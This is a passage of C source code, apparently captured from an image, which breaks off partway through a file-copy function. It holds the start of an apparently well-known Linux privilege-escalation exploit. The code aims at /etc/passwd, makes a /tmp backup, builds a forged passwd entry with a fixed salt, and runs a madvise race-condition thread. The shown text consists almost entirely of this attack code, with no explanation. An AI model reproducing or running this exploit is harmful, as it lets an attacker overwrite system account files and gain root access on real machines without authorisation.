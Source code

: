 const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "firefart";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = "%s:%s:%d:%d:%s:%s:%s\n";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf("madvise %d\n\n", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf("File %s already exists! Please delete it and run again\n",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, "r");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, "w");
  if(target == NULL) {
     fclose(source);
     return -1;
  }
